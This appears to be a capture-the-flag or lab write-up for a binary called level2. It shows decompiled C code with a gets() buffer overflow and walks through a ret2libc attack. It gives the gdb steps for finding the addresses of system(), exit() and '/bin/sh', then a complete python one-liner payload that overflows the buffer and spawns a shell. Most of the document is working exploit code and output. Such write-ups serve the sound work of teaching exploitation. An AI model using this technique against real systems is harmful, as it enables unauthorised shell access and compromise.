 Here is the decompiled binary :

```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)

{
  p();
  return;
}
```

We can perform a ret2libc attack on this code (https://shellblade.net/files/docs/ret2libc.pdf)

Our payload should be like this : 

```
[ padding ] + [ addr of ret instruction in p() ] + [ addr of system() ] + [ addr of exit() ] + [ addr of "/bin/sh" ]
```

To find those address we can do in gdb :

`gdb ./level2` then `b main` then run the program, and then `p system/exit`
for ret address of p() : disas p and look at the address of the instruction ret.
for the string "/bin/sh", we can find it inside libc :

`info proc mappings` then find the start address and the end address of libc and then this command will find the string if it is inside the binary :

`find start_addr, end_addr, "/bin/sh"`

So we have all the elements for the payload :

offset : 80
ret address : 0x0804853e <+106>: ret
system() address : $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
exit() address : $2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
`"/bin/sh"` : (gdb) 0xb7f8cc58

Our payload will look like this :
`(python -c 'print("A"*80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" +  "\x58\xcc\xf8\xb7")'; cat) | ./level2`

And we have a shell.
